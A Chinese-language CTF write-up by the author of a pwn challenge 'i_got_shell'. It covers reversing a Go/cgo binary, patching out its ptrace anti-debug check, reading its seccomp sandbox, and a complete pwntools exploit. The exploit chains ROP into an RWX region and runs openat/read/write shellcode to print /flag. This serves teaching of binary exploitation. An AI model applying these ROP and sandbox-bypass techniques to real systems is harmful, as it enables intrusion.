

# i_got_shell

## 出题思路

本题的出题思路是
- 使用golang进行cgo的编写，增加逆向难度
- 设置沙箱，禁用execve系列
- ban open, 但可以使用openat
- ban ptrace, 禁用寄存器调试
- 使用ptrace检测gdb调试、沙箱检测
- 初始化时mmap了一段rwxp的地址，可以劫持ret_address执行read最后ret到写入的shellcode

原本还想使用`close(1)`的方式将输出流关闭（需要使用侧信道爆破flag或者重定向），但是考虑到难度，故只开启了`close(2)`


所以本题需要解出的手法是orw

但是由于是golang编译的，所以在反编译的时候较为困难，同时设置了ptrace检测gdb调试，导致关键函数无法调试。解决的办法就是对二进制文件进行patch，将ptrace给nop，这样就可以进行gdb调试了，同时也可以去查看开了什么沙箱。

## 解题步骤

### 0x1

很常规的使用`checksec`检测文件，发现没开pie和canary


### 0x2

尝试本地运行一下，发现了不得了的东西
- golang pwn
- sandbox


由于提示了本题开启了沙箱，所以使用`seccomp-tools`查看。

不查看不要紧，一查看发现了很怪的事情？！这个`fxxk gdb ptrace`是啥玩意？为啥刚刚可以正常运行，这里就退出了呢？


### 0x3

为了分析上述问题出现的原因，我们还是得从ida里逆向分析。

ida7.6及以上对golang实现了只能识别，比7.5版本好看多了。

首先在逆golang程序之前，需要知道两件事情：

- ida中打开的golang程序主函数是`main_main`
- 在`main_main`之前执行的是`main_init`，是golang中比main函数先执行的初始化函数。

来到`main_main`的位置，可以看到和我们刚刚运行的输出是一样的


按tab看看伪代码，发现了最后执行的`main__Cfunc_cg0l4ng_vu1n_7unc`函数



这个带有`Cfunc`的函数，其实就是golang调用c的函数，而函数名就是`cg0l4ng_vu1n_7unc`。我们可以在ida左侧的符号表中搜索这个函数


发现相同的类似函数还有三个，分别是`cg0l4ng_sandbox`、`cg0l4ng_n3ver_kn0vv_th1s_1n1t`。同时右侧分支界面出现了`fxxk gdb ptrace!`的字样，这个就是我们上方使用seccomp-tools异常退出的地方，按tab查看伪代码。


发现如果`ptrace(PTRACE_TRACEME) == -1`那么就直接退出了。其实这就是最简单的检测gdb调试的方法，我们将这一段给nop掉就能够正常gdb调试和检测sandbox辣！

其实上述伪代码还有两个点：

- 调用了`cg0l4ng_sandbox`
- 有一个`read`函数

大胆猜测一下sandbox函数是用来初始化沙箱的，而read函数就是用来栈溢出的。

### 0x4

我们还剩下一个`cg0l4ng_n3ver_kn0vv_th1s_1n1t`函数没有查看。我们进入然后查看。通过交叉查找发现其实这个函数是在`main_init_0`中被调用的，也就是golang的init函数，比main函数更早执行。


发现别有洞天。除了三个基本的setbuf之外，还mmap了一段权限为7的地址。也就是可读可写可执行的地址，那么可以用来进行shellcode的注入。

我们在patch了gdb检测后，查看一下sandbox


发现ban了很多函数，其中execve之类的获取shell的是无法使用了，open被ban了可以使用`openat`。同时`read`、`write`都没有ban，那么可以使用open、read、write的技巧，通过注入shellcode获取flag。

### 0x5

通过gdb调试，或者cyclic的计算，我们可以得出read从0x30字节开始就是覆盖ret_address了，同时可以最多写0x28长度的rop链。

我们可以通过先调用read(0, 0x114000, len)的方式向0x114000写入shellcode，然后将最后的ret_address写成0x114000，这样就能执行我们的shellcode了。

问题就来了，0x28长度如何调用read。

我们通过gdb调试，发现在ret的状态rdi是0，rdx是0x60，也就是我们只需要修改rsi为0x114000就可以辣。同时ROPgadget得到的rsi的gadget有两条，随意选择一条利用就可以了。

最后就是编写orw的shellcode了，我这里直接调用shellcraft来生成。

有一个注意的点，我怕0x60编写shellcode的长度不够，所以先调用了一次read(0,  0x114000, 0x100)，这样就能往后写更长的shellcode了。

## exp

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"
DEBUG = 0

elf = ELF("../file/i_got_shell_release")
io = process("../file/i_got_shell_release") if DEBUG else remote("127.0.0.1", 20004)

s = lambda data: io.send(data)
sa = lambda word, data: io.sendafter(word, data)

# gadget
pop_rdi_ret = 0x4846E7
pop_rsi_r15_ret = 0x4846E5

# rop
payload = b"b" * 0x28
payload += p64(pop_rsi_r15_ret) + p64(0x114000) + p64(0)  # read(0, 0x114000, 0x48)
payload += p64(elf.plt["read"])
payload += p64(0x114000)  # ret到shellcode
sa("!", payload)

# read写入更多的shellcode
shellcode = shellcraft.read(0, 0x114000, 0x500)
shellcode = asm(shellcode)
s(shellcode)

# orw
shellcode = shellcraft.openat(0, "/flag", 0)
shellcode += shellcraft.read(2, 0x114514, 0x100)
shellcode += shellcraft.write(1, 0x114514, 0x100)
shellcode = b"b" * 0x15 + asm(shellcode)
s(shellcode)

io.interactive()
```